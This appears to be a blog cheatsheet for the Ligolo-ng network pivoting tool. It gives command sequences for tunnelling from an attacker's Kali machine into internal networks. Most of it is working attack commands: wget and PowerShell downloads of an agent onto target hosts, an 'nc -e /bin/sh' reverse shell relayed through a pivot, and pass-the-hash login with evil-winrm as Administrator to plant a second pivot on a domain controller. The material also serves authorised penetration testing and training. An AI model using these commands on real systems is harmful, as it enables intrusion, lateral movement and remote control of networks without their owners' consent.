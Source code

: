 ```yaml
---
layout: post
title:  Ligolo-ng Cheatsheet
description: Cheatsheet for Ligolo-ng
date:   2024-10-31 09:00:00 +0300
image:  '/images/21.jpg'
tags:   [Cheatsheets, Tools, Pivoting]
---
```

# Table of Contents
- [Getting Ligolo-ng](#getting-ligolo-ng)
- [Basic Pivot](#basic-pivot)
- [File Transfer Example with Single Pivot](#file-transfer-example-with-single-pivot)
- [Reverse Shell Example with Single Pivot](#reverse-shell-example-with-single-pivot)
- [Easy Double Pivot to Access a Second Internal Network](#easy-double-pivot-to-access-a-second-internal-network)
- [Fast Pipelines with same Port through Multiple Pivots](#fast-pipelines-with-same-port-through-multiple-pivots)

### Getting Ligolo.ng
Important Note: Make sure you are always using the same version of Proxy and Agent (For example, both Proxy and Agent must be 0.7.2).

#### Download the binaries manually (Recommended)
##### PROXY (Run this on Kali)
- [Linux 64-bit Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bit Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_windows_amd64.zip)

##### AGENT (Run this on Pivot Host)
- [Linux 64-bit Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bit Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_windows_amd64.zip)

For more information about Ligolo-ng, visit its official [GitHub Repository](https://github.com/nicocha30/ligolo-ng).

#### Alternative with Package Installer
```shell
sudo apt install ligolo-ng

# Locate, copy the needed files and run them (Example with agent file)
sudo updatedb -v
locate agent
sudo cp /path/to/ligolo/agent .
sudo chmod +x agent
./agent
```

### Basic Pivot
Move the agent file into the pivot host:
```shell
# On Kali
sudo cp /home/kali/Downloads/ligolo-ng_agent_0.7.2_linux_amd64/agent .
python3 -m http.server 443

# On Target (Linux)
cd /tmp
wget http://<kali_ip>:443/agent

# On Target (Windows using PowerShell)
cd C:\Windows\Temp
powershell -c iwr http://<kali_ip>:443/agent.exe -OutFile agent.exe
```
Set up Ligolo-ng on Kali:
```shell
# Create an interface
sudo ip tuntap add user Vorkharium mode tun ligolo
sudo ip link set ligolo up

# Add new IP range we want to access (Examine Pivot Host with ifconfig, ip a, etc commands)
sudo ip route add 172.16.150.0/24 dev ligolo
ip route list

# Run the proxy file
sudo chmod +x proxy
./proxy -selfcert

# The Ligolo-ng console will now open (We will interact with it soon)
```

On the Pivot target, use the agent file to connect to our running proxy:
```shell
# On Linux
chmod +x agent
./agent --connect <kali_ip>:11601 -ignore-cert

# On Windows PowerShell
./agent.exe --connect <kali_ip>:11601 -ignore-cert

```

Now enter the following on the Ligolo-ng console:
```shell
# Enter "session" to show the available sessions
ligolo-ng » session

# Enter "1" to select the session we created when using the agent (There is only one session to choose in this case)
? Specify a session : 1

# Enter "start" to start the connection
[Agent : hackme@compromisedmachine] » start

# Now we are able to access the network 172.16.150.0/24
```

### File Transfer Example with Single Pivot
In this example:
- We got access into the Host B 172.16.150.20 (We are inside its CLI).
- We previously set up our Pivot Host A, in this case 172.16.150.10.
- Now we want to move a file from Kali (192.168.45.200) to Host B (172.16.150.20) through our Pivot Host A (172.16.150.10).

To achieve that, we will create a new listener in our active Ligolo-ng session:
```shell
# Create new listener - Port 1234 on Kali will be the Port 9001 on the Pivot Host A
# Enter the following on the running active Kali Ligolo-ng session
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:9001

# Start Python server on Kali using Port 1234
python3 -m http.server 1234

# From the Host B CLI, access Python server through Port 9003 at the Pivot Host
wget http://172.16.150.10:9001/test.txt
```

### Reverse Shell Example with Single Pivot
Following the example above, we will create a new listener, but this time we will use that listener to get a Reverse Shell:
```shell
# Create new listener - Port 1235 on Kali will be the Port 9002 on the Pivot Host A
# Enter the following on the running active Kali Ligolo-ng session
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:9002

# Start nc listener on Kali Port 1235
nc -lvnp 1235

# Enter the following at Linux CLI on Host B to access the nc listener through Pivot Host A Port 9002
nc 172.16.150.10 9002 -e /bin/sh

# Now we successfully got a shell from the Host B (172.16.50.20) to our Kali
```

### Easy Double Pivot to Access a Second Internal Network
The following situation is given:
- We got access to the first internal network (172.16.150.0/24) through Administrator access at Pivot Host A (172.16.150.10).
- The Host B as access to another internal network (172.16.200.0/24).
- We will set a Second Pivot at Host B (172.16.150.20) to access the second internal network (172.16.200.0/24).

To achieve that, we can do the following:
```shell
# Connect with evil-winrm
evil-winrm -i 172.16.150.10 -u Administrator -H <NT_hash>

# Upload ligolo-ng agent.exe
upload agent.exe

# Set up a new ligolo interface on Kali
sudo ip tuntap add user Vorkharium mode tun ligolo2
sudo ip link set ligolo2 up

# Add the second internal network
sudo ip route add 172.16.200.0/24 dev ligolo2

# On the Ligolo-ng current session, create a new listener connecting to the Port 11601 of the first session
listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601

# Run the agent.exe to create a connection from the Second Pivot Host to the First Pivot Host
./agent.exe --connect 172.16.150.10:11601 -ignore-cert

# On Ligolo-ng console - Show sessions
ligolo-ng » session

# Select the new session created from the Second Pivot Host
? Specify a session : 2 # automotors\Administrator@DC01 (Example of the name of the second pivot host)

# Start new Ligolo-ng session using the new interface "ligolo2" so it won't interfere with the first interface "ligolo"
[Agent : automotors\Administrator@DC01] » start --tun ligolo2

# Now we can access the second internal network 172.16.200.0/24
```
### Fast Pipelines with same Port through Multiple Pivots
```shell
# Note: Our Kali IP  in this example is 192.168.45.200

# Add listeners inside Ligolo-Ng console
# On Session 1 - Pivot Host A (172.16.150.1)
listener_add --addr 0.0.0.0:9000 --to 0.0.0.0:9000

# On Session 2 - Pivot Host B (172.16.200.1)
listener_add --addr 0.0.0.0:9000 --to 0.0.0.0:9000

# Now we can access the Port 9000 in our Kali through Port 9000 on Pivot Host B and viceversa
172.16.200.1:9000 = 192.168.45.200:9000 = 127.0.0.1:9000
```
